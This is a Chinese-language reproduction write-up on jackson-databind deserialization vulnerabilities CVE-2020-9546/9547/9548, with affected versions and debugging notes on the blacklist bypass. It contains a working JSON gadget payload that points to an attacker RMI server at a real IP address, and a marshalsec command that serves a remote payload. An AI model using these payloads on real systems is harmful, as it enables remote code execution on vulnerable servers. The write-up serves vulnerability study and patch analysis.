









## 概述

FasterXML/jackson-databind是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

三个利用链皆是黑名单绕过，在反序列化期间触发其指定的方法，最终实现JNDI注入远程代码执行。

## 影响版本

2.0.0 <= FasterXML jackson-databind < 2.9.10.4

https://github.com/Fasterxml/jackson-databind/releases

https://github.com/FasterXML/jackson-databind/issues/2634

## 下载jar包

如果在git上源码无法用mvn编译成功，可以直接在mvn仓库下载jar包。

https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-databind/2.9.10.3/jackson-databind-2.9.10.3.jar

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099

## CVE-2020-9547

依赖下面这2个jar

效果：

## CVE-2020-9548

环境，jdk1.8 , 1.7会提示 jar包最低适配版本1.8

依赖下面这三个jar,现实盲打难度大

效果：

## CVE-2020-9546      03/01/2020   +调试

漏洞公告: https://nvd.nist.gov/vuln/detail/CVE-2020-9546

https://www.findjar.com/ 这个网站可以找到一些jar,

未找到 org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig  class

后来经过大佬提醒(https://github.com/fairyming/CVE-2020-9547/issues/1),是这个jar -> hadoop-client-minicluster-3.2.1.jar ,这我怎么可能找到嘛:) 暂不知道如何根据 class 名找到 jar包名，估计就是根据相关开发人员经验，2是mvn仓库搜包名一个一个试吧。

payload1:

	payload1 = "[\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",   {\"metricRegistry\":\"rmi://114.116.253.148:1099/TouchFile\"}]";
		
完整payload 见 Main.java

根据git修改的补丁文件位置：

src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java

得知黑名单类为  SubTypeValidator.java ，加断点**调试**

 

 

绕过黑名单以后，调用远程RMI/LDAP服务器，可见**黑名单是不安全的处置方法。**

## 参考资料

[CVE-2020-9546/7/8：FasterXML/jackson-databind 远程代码执行漏洞处置通告](https://www.anquanke.com/post/id/200010)

[官方mvn仓库](https://mvnrepository.com/)
